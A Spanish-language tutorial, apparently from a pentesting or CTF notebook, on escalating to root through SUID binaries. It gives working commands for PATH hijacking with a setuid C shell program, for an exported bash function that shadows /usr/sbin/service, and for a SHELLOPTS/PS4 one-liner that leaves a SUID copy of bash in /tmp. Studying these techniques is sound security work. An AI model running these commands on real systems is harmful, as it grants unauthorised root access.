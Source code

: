 Imaginemos que el binario ejecuta el siguiente comando:

```bash
service apache2 start
```

es un comando que no es peligroso ni nada pero al no llamarlo de la ruta absoluta, podemos hcer un path hijacking, que es crear un binario malicioso con el mismo nombre dentro de una carpta en donde tengamos permisos de escritura, modificamos la variable de entorno PATH y hacemos que cuando se llame al comando service se llame en realidad a nuestro binario creado. (A no ser que se lo llame de su ruta absoluta)

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c

gcc /tmp/service.c -o /tmp/service

export PATH=/tmp:$PATH

# ejecucion del binario

/usr/local/bin/suid-env
```

esto nos dara una shell como root.

ahora imaginemos que el binario usa la ruta absoluta y lo podemos verificar con strings:

```bash
/usr/sbin/service apache2 start
```

diras que al usar la ruta absoluta no es posible hacer nada, pues no, aun se puede. En linux nos permiten crear variables de entorno pero tambien funciones de entorno que realicen una serie de cosas cuando se las invoca, entonces podriamos hacer lo siguiente:

creamos una funcion llamada como la ruta absoluta del comando:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

esta funcion nos habre una shell como root.

exportamos la funcion:

```bash
export -f /usr/sbin/service
```

y a la hora de invocar al binario, en ralidad llamara a la funcion de entorno cuando quiera ejecutar el comando y nos dara la shell como root:

```bash
/usr/local/bin/suid-env2
```

otra forma alternativa a traves de un oneliner:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
